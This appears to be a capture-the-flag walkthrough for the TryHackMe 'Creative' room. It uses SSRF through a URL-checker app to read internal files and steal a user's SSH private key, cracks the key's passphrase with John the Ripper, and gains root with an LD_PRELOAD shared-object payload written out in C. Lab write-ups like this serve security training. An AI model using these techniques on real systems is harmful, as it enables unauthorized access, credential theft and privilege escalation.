 ```yaml
---
layout: post
title: TryHackMe/Easy/Creative
abbrlink: 99a5204bf44540f8a0aa1f5077713127
tags:
  - ssrf
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Creative
date: 1716305743145
updated: 1746973662126
---
```


<https://tryhackme.com/r/room/creative>

# Enumeration

## \[+] 10.10.155.251 - creative.thm

Using `echo` and `>>` to append the IP address with the domain name to my `/etc/hosts` file. Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online:

```sh
sudo echo '10.10.155.251 creative.thm' >> /etc/hosts
export RHOSTS=10.10.155.251
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

There doesn't seem to be much on `creative.thm`, so let's use the [ffuf](https://github.com/ffuf/ffuf) tool to fuzz for subdomains with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/bitquark-subdomains-top100000.txt):

```sh
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u "http://creative.thm" -H "Host: FUZZ.creative.thm" -fs 178
```

![7408e0ea0396aa05dfd1e8cfd9f72801.png](/resources/5aae0f0d1df5458dbb7f4ae6302aea0e.png)

After a while we should find a new subdomain "beta". Let's add it to `/etc/hosts`:

```sh
echo '10.10.155.251 beta.creative.thm' >> /etc/hosts
```

### \[-] beta.creative.thm

Here, we have a web application that takes a URL and checks to see if it's online or not:

![feac1de64de0d334f8f890b46a402519.png](/resources/ecae9b3e19674167b4d6c2932b618c49.png)

Payloads like LFI and command injection won't work here, so let's try [SSRF](https://portswigger.net/web-security/ssrf). We can use a tool like [SSRFMap](https://github.com/swisskyrepo/SSRFmap) to test for vulnerabilities, but first we have to capture the request in [Burp Suite](https://portswigger.net/burp).

Start Burp Suite, click the "Proxy" tab and click the "Launch Browser" button. After navigating to `beta.creative.thm`, type "test" in the URL field and click the "Submit" button. There should be a `POST` request in the "HTTP History" tab:

![51f5a3884fdec82061762e9943736d73.png](/resources/1bc0f23e07e241d085d425b0159fb6ba.png)

Copy the contents of the Request, paste it into a text editor and save it as `req.txt`.

Follow the instructions on the [SSRFMap](https://github.com/swisskyrepo/SSRFmap?tab=readme-ov-file#install-and-manual) to download and install the tool. Then run the following command to port scan the internal network:

```sh
python ssrfmap.py -r req.txt -p url -m portscan
```

After a while we should see port 1337 open:

![d360e42a2a4582adf272f5973850ddb4.png](/resources/ad7d44a1d6974653b32b74f9734f57a4.png)

If we go back to the web application on `beta.creative.thm` and type `http://localhost:1337` in the URL then press the "Submit" button, we should get a directory listing for a UNIX system:

![90a1cc851b1154aae263cbeff1426cfe.png](/resources/75da7c557028435bb416e9fb2ab8616c.png)

![8eeb00aae0c32f9db3f87a0dfdaf9d74.png](/resources/3b19d8be5bc84a63b31ce4307473b5af.png)

To search through the directories, we'll have to go back to `beta.creative.thm` and update the URL every time we want to change directories. For example, let's check the `home` directory by entering `http://localhost:1337/home`:

![d4e026f659b67a0d5aef5751c7c39943.png](/resources/aaef22dc9db5451a8bc5164017638292.png)

![da017889d10db921ee20fe7895b21ea4.png](/resources/d6ebb0358b304436a51178982fd273ff.png)

Now that we have the username, we can get the first flag by entering the URL `http://localhost:1337/home/saad/user.txt`.

# Initial Foothold

Let's try to see if there are any SSH keys available by checking the hidden `.ssh` directory using the URL `http://localhost:1337/home/saad/.ssh`:

![6f70f9e405a1676b20173abe9f543ffb.png](/resources/1cd75ba47332441aa09dc2d2788e4cdc.png)

If we go to `http://localhost:1337/home/saad/.ssh/id_rsa`, the formatting of the SSH key will be wrong, so instead we'll right-click on the page then click on "View Source" and copy the key from there and save it to a file named `saad.rsa`:

![2b2a540834e62f09bf10c88dc014128a.png](/resources/f54d31390fc54612a3f2a8d537e28243.png)

![2adf9a0106738e29796d5a85d9dd0d64.png](/resources/30a90c763faa4c128aff8c52501a0ddf.png)

The SSH key requires a password before we are able to login, so we'll have to crack it using [John the Ripper](https://www.openwall.com/john/). First we'll convert the key into a format that John the Ripper can use with the [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) tool:

````sh
ssh2john saad.rsa > saad.john
```language

Then use John the Ripper with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt) and we should get the password after a moment:

````

john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou-75.txt saad.john

````

![a619a3d398e5ca00bfc88691e911e479.png](:/30fb2ac3fa8b4fe88440397c8c7a9274)

## Port 22 - SSH

### [-] saad@m4lware

Now we can login via SSH and input the password when prompted:

```sh
ssh -i saad.rsa saad@$RHOSTS
````

If we check the `home` directory using `ls -lah` we'll see that the `.bash_history` file hasn't been cleared:

```sh
ls -lah
```

![9cc8ca5e1ec0bf9cc1b9d7f45365dad3.png](/resources/d5d35567d70e4227b209188e9cc29060.png)

Using `cat` to print the contents gives us the password for the user `saad`:

```sh
cat .bash_history
```

![5fd306839bc01095407dce1b66205385.png](/resources/a8dfdb1f298946d3aa83f46805d66542.png)

Now we can use `sudo -l` to see if we have any special permissions:

```sh
sudo -l
```

![9a390e566b7ab61db3f996d3902e9bed.png](/resources/0569fb1125c449ebb2c558a4b0db5a53.png)

With the combinations of these permissions we can escalate our privileges.

# Privilege Escalation

### \[-] root\@m4lware

We can follow these steps from [SwissSkyRepo GitHub](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#ld_preload-and-nopasswd) to exploit `LD_PRELOAD`.

On the victim machine, we'll change our directory to `/tmp/` first and then create a new file using `vim`:

```sh
cd /tmp
vim shell.c
```

After `vim` launches, press `i` then copy and paste the code:

```c#
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

![3e1f79cb0f13176b44db662ef403923c.png](/resources/b99980bfe54c4469aadc020991529457.png)

Then press `ESC` and type `:wq` then press `Enter` to write and quit the application.

![7e4ca1a57557ccc1865b6ecb328d3fb3.png](/resources/67e5dce5ede64dc78a20450fc1aefd38.png)

Now we can compile it using `gcc`:

```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

The exploit needs a binary that can be ran with `sudo` permissions, which we have with `/usr/bin/ping`. When we run the next command we will become root:

```sh
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

![a929a10466084987cb4a2a0d8d051f55.png](/resources/8373372fca6049b6b36e39483bbbe1e7.png)

Now we can get the last flag in `/root/root.txt`:

```sh
cat /root/root.txt
```

![007928c2022bc0d0af466c05da45650f.png](/resources/edc5e6b85d4348378a4b888282431072.png)
